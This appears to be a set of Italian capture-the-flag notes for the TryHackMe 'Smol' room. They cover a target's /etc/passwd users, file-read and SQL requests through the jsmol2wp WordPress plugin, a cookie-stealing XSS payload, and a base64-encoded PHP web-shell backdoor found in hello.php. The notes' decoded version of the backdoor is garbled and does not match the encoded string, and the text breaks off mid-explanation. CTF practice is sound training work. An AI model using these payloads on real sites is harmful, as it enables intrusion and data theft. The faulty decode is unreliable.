 ```
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```
Utenti
- **root**: L'utente con UID 0, ha accesso completo al sistema e può eseguire qualsiasi comando.
- **www-data**: Spesso utilizzato per il server web, con shell impostata su `/usr/sbin/nologin`, il che significa che non può accedere al sistema tramite una shell.
- **think**, **xavi**, **diego**, **gege**: Questi sono utenti normali con shell impostata su `/bin/bash`, il che significa che possono accedere al sistema e utilizzare la shell.


https://www.hackingarticles.in/wordpress-reverse-shell/

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-admin/plugins.php
```

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=SELECT * FROM wp_users
```

```
<script>alert(document.cookie)</script>
```

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=<script>alert(document.cookie)</script>&mimetype=text/html; charset=utf-8
```


https://medium.com/@maxbsec/smol-ctf-tryhackme-8805d4e584c9

```
http://www.smol.thm/wp-admin/post.php?post=58&action=edit
```

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```

```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```
La funzione `eval()` in PHP esegue il codice PHP fornito come stringa. Quindi, il risultato della decodifica Base64 viene passato a `eval()`
Dopo la decodifica, il codice diventa:
```
if (isset($_GET["\14\155\164\64"])){ system($_GET["\14\3\x6d\144"]); }
```
==Cosa Fa il Codice==

1. **Controllo di un Parametro GET**:
    
    - Il codice controlla se esiste un parametro GET con una chiave specifica (che, dopo la decodifica, risulta essere una stringa di caratteri speciali). In questo caso, la chiave è rappresentata da caratteri ASCII codificati.
2. **Esecuzione di un Comando di Sistema**:
    